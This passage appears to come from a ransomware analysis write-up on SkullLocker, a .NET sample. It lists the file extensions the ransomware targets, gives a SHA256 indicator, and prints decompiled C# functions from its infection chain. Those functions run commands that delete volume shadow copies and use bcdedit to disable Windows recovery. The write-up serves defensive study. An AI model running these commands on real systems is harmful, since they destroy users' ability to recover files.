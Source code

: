 ```bash
".dotx",".xltx",".pptm",".potx",".potm",".pot",".xlw",".xps",".xsd",".xsf",".xsl",".kmz",".accdr",".stm",".accdt",".ppam",".pps",".ppsm",".1cd",

".3ds",".3fr",".3g2",".accda",".accdc",".accdw",".adp",".ai",".ai3",".ai4",".ai5",".ai6",".ai7",".ai8",".arw",".ascx",".asm",".asmx",".avs",".bin",

".cfm",".dbx",".dcm",".dcr",".pict",".rgbe",".dwt",".f4v",".exr",".kwm",".max",".mda",".mde",".mdf",".mdw",".mht",".mpv",".msg",".myi",".nef",".odc",

".geo",".swift",".odm",".odp",".oft",".orf",".pfx",".p12",".pl",".pls",".safe",".tab",".vbs",".xlk",".xlm",".xlt",".xltm",".svgz",".slk",".tar.gz",

".dmg",".ps",".psb",".tif",".rss",".key",".vob",".epsp",".dc3",".iff",".onepkg",".onetoc2",".opt",".p7b",".pam",".r3d"
```



## Indicators of Compromise

The sample used in this article is the same one mentioned by [macert](https://www.dgssi.gov.ma/fr/content/4061060323-skulllocker-ransomware.html) team .

| Type   | Indicator                                                        | Description                 |
| ------ | ---------------------------------------------------------------- | --------------------------- |
| SHA256 | bb5ca9d8de51734dbd14dc081c7c892d819cd14fafd7ccd62849d70f9e679369 | SkullLocker Main Ransomware |       |                                                                  |                             |

## Analysis 


According to first analysis it appears that the ransomware is built using .net .

![detect it easy](/images/die.png)

the ransomware doesn't have any obfuscation techniques all you need to decompile it using .net tools and you will have the source code ( i personaly hate these kind of ransomwares since i do not enjoy breaking them down). 

in order to understand how it works we will cover the principal methodes and functions that is used to encrypt files and how it work in general .

### Infection Chain

```cs
private static void deleteShadowCopies()
		{
			Program.runCommand("vssadmin delete shadows /all /quiet & wmic shadowcopy delete");
		}
```

- delete all the shadow copies on the system to prevent users from recovering previous versions of files or folders.

```cs
private static void disableRecoveryMode()
		{
			Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no");
		}
```
